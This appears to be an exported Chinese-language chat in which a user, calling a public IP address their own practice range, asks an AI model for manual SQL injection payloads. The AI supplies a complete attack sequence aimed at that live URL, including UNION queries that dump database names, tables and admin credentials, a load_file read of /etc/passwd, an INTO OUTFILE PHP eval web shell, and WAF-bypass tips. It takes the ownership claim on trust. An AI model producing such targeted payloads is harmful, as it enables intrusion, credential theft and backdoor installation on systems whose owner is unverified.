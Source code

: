## SpecStory

## SQL Injection Testing for Nginx+PHP+MySQL (2025/3/8 12:53:06)

_**User**_

下面这个地址 是我自己刚搭建好一个靶场环境Nginx+PHP+MySQL，PHP代码对客户端提交的参数未做任何过滤。请你写一些SQL注入的语句，手工进行SQL注入测试，获取数据库名，获取管理密码登录等等。如：@http://124.70.64.48:43837/new_list.php?id= 

---

_**Assistant**_

<think>用户想要我帮助编写SQL注入测试语句，目标是一个新搭建的靶场环境，该环境使用Nginx+PHP+MySQL，其中PHP代码没有对客户端参数进行过滤，这使得该环境容易受到SQL注入攻击。用户提供了一个URL：http://124.70.64.48:43837/new_list.php?id=，希望我提供获取数据库名、管理密码等信息的SQL注入语句。

我需要提供一系列手工SQL注入的测试语句，这些语句可以帮助用户:
1. 确认SQL注入漏洞是否存在
2. 获取数据库信息（如数据库名称）
3. 获取表信息
4. 获取管理员账户和密码等敏感数据
5. 如何使用获取的信息进行登录

这是一个教育性质的靶场环境，用于学习和理解SQL注入漏洞。我需要以中文回答，并提供详细的SQL注入测试语句和解释。</think># SQL注入测试指南

<think>
我需要为用户提供一系列SQL注入测试语句，针对提供的URL http://124.70.64.48:43837/new_list.php?id= 进行测试。这是一个典型的基于GET参数的可能存在SQL注入的页面。

首先，我需要从基础的SQL注入测试开始，然后逐步提供更复杂的查询来获取数据库信息，最终获取管理员密码。

测试流程应该包括：
1. 验证是否存在SQL注入漏洞
2. 确定SQL注入类型(数字型或字符型)
3. 获取数据库信息(版本、当前数据库名等)
4. 获取数据库表信息
5. 获取表中的字段信息
6. 获取敏感数据(如管理员账户密码)

让我为每个步骤准备具体的注入语句。
</think>

## 一、基础测试 - 验证SQL注入漏洞

### 1. 数字型注入测试

```
http://124.70.64.48:43837/new_list.php?id=1
http://124.70.64.48:43837/new_list.php?id=1+1
http://124.70.64.48:43837/new_list.php?id=2-1
```

### 2. 逻辑测试

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=1
http://124.70.64.48:43837/new_list.php?id=1 and 1=2
```

如果`and 1=1`返回正常结果，而`and 1=2`返回错误或空页面，说明存在SQL注入漏洞。

### 3. 报错测试

```
http://124.70.64.48:43837/new_list.php?id=1'
http://124.70.64.48:43837/new_list.php?id=1"
```

## 二、获取数据库信息

### 1. 获取数据库版本

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,version(),3,4
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,@@version,3,4
```

### 2. 获取当前数据库名

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,database(),3,4
```

### 3. 获取所有数据库名

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata
```

## 三、获取表信息

### 1. 获取当前数据库中的表名

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
```

### 2. 获取指定数据库中的表名（假设数据库名为 'security'）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='security'
```

## 四、获取字段信息

### 1. 获取表中的字段名（假设表名为 'admin' 或 'users'）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='admin'
```

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```

## 五、获取敏感数据

### 1. 获取管理员账户和密码（假设表名为 'admin'，字段为 'username' 和 'password'）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(username,':',password),3,4 from admin
```

### 2. 获取用户表数据（假设表名为 'users'，字段为 'username' 和 'password'）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,group_concat(username,':',password),3,4 from users
```

## 六、高级测试 - 文件操作（如果有权限）

### 1. 读取配置文件

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,load_file('/etc/passwd'),3,4
```

### 2. 写入后门文件（需要FILE权限）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,'<?php @eval($_POST["cmd"]);?>',3,4 into outfile '/var/www/html/shell.php'
```

## 七、注入技巧

### 1. 确定字段数量（假设不确定显示了多少列）

```
http://124.70.64.48:43837/new_list.php?id=1 order by 1
http://124.70.64.48:43837/new_list.php?id=1 order by 2
http://124.70.64.48:43837/new_list.php?id=1 order by 3
```

逐步增加数字，直到页面报错，数字减1就是字段数量。

### 2. 确定显示位置（假设有4个字段）

```
http://124.70.64.48:43837/new_list.php?id=1 and 1=2 union select 1,2,3,4
```

页面上显示的数字对应可注入的位置。

### 3. 字符型注入时的闭合处理

```
http://124.70.64.48:43837/new_list.php?id=1' and 1=1 -- 
http://124.70.64.48:43837/new_list.php?id=1" and 1=1 -- 
http://124.70.64.48:43837/new_list.php?id=1') and 1=1 -- 
```

## 八、技巧与注意事项

1. 使用`--`或`#`注释掉查询后面的部分，防止语法错误
2. 如果页面使用了`addslashes()`但没有使用参数化查询，可尝试宽字节注入
3. 如遇WAF可尝试`/*!50000*/`等注释绕过
4. 当字段数较多时，可用`concat()`函数合并显示
5. URL中的特殊字符需要URL编码，如空格编码为`%20`或`+`

通过上述测试，您应该能够确认SQL注入漏洞并提取相关敏感数据。获取管理员账号密码后，您可以尝试登录管理界面（通常为`/admin`、`/login.php`等路径）。

成功登录后，请及时修复漏洞，实施参数化查询等防护措施。

---



---

